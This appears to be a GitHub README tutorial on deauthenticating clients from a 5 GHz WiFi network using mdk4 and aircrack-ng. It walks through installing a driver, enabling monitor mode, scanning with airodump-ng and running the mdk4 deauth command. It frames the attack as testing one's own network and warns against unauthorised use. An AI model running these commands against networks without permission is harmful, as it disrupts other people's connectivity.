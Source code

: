 # 5Ghz Deauther using mdk4 and aircrack-ng

- I would love to provide you with an easy-to-use 5 GHz WiFi research tool, but unfortunately, I haven't yet been able to find a suitable microcontroller that would allow for 5 GHz WiFi hacking. But we do highly anticipate the upcoming ESP32-C5 from Espressif.

What you need: 
- A computer running Linux (you can use your computer or a Raspberry Pi)
A Dual-Band WiFi adapter that supports packet injection (to send custom packets) and monitor mode (to sniff raw network traffic)
We need a Linux machine because the drivers and tools we will use aren't available for other operating systems. But running Linux is the easy part. Finding a supported WiFi adapter, however, is tricky.

Some built-in network cards will work for WiFi hacking, but you never know for sure until you try them out. I recommend getting a <b>rtl8812au</b> based card, like the <b>AWUS036AC</b> or <b>AWUS036ACH</b> from ALFA. Alternatively, you can also use a Raspberry Pi with [nexmon](https://github.com/seemoo-lab/nexmon)

# Amazon links

rtl8812AU cards: [AliExpress](https://s.click.aliexpress.com/e/_9iKln5), [Amazon](https://amzn.to/3u2xWRU)
ALFA AWUS036AC: [Amazon](https://amzn.to/3u62Ngo)
ALFA AWUS036ACH: [Amazon](https://amzn.to/3DG3mko)

# Installing rtl8812au Driver

sudo apt install dkms
git clone https://github.com/aircrack-ng/rtl8812au.git
cd rtl8812au
sudo make dkms_install

# Installing mdk4 and aircrack-ng

- MDK4 is a "proof-of-concept tool to exploit common IEEE 802.11 protocol weaknesses". It supports 5 GHz and a variety of attacks and is easy to use. To install run:

 <b>sudo apt install mdk4</b> 
 
- But we will also need Aircrack-ng, which is "a complete suite of tools to assess WiFi network security". To install it, run:
 
 <b>sudo apt install aircrack-ng</b>
 
 # Enable monitor mode
- To see all WiFi packets in the air around you, not just those addressed to your device, you must put the WiFi card into monitor mode.
First, check the name of the available WiFi interfaces by running:

<b>sudo airmon-ng</b>

As a result, you should see something like this:

<img src="1.png">

- wlan0 is our built-in WiFi
- wlan1 is the external ALFA WiFi card

Since we want to use the ALFA card, running the following commands will enable monitor mode on wlan1:

<b>sudo ifconfig wlan1 down</b>
  
<b>sudo iwconfig wlan1 mode monitor</b>
  
<b>sudo ifconfig wlan1 up</b>

# Finding the target network

- Now with monitor mode enabled, we can scan for the available WiFi networks and determine which is ours. Do never run these attacks on other people's networks without permission!

Airodump-ng is an excellent WiFi scanner that is part of the Aircrack-ng suite. Because we're looking to test a 5 GHz network specifically, we additionally need to supply the "band" argument:

<b>sudo airodump-ng wlan1 --band a</b>

<img src="2.png">

Once you find the network you're looking for, press CTRL+C to stop airodump-ng. Here our test network is called "spacehuhn5ghz" and it's a WPA2-protected network operating on channel 44. [Spacehuhn Blog](https://blog.spacehuhn.com/5ghz-deauther)

# Deauthing using mdk4

- To start deauthing your test network run: in "YOURWIFIAP" you need to put the AP/Name of your wifi.

<b>sudo mdk4 wlan1 d -E YOURWIFIAP</b>

- Now try to connect to the test network. If you struggle to establish a connection, the attack is working, and your network is vulnerable to this kind of attack. 🎉

If your network connection is not disrupted, then it might be immune to deauthentication attacks. You can read more about that in [Spacehuhn Blog](https://blog.spacehuhn.com/deauth-attack-not-working/) post Why the Deauthentication Attack isn't working

# Thanks to [Spacehuhn for explained tutorial](https://github.com/SpacehuhnTech/)

- B4CKDOOR







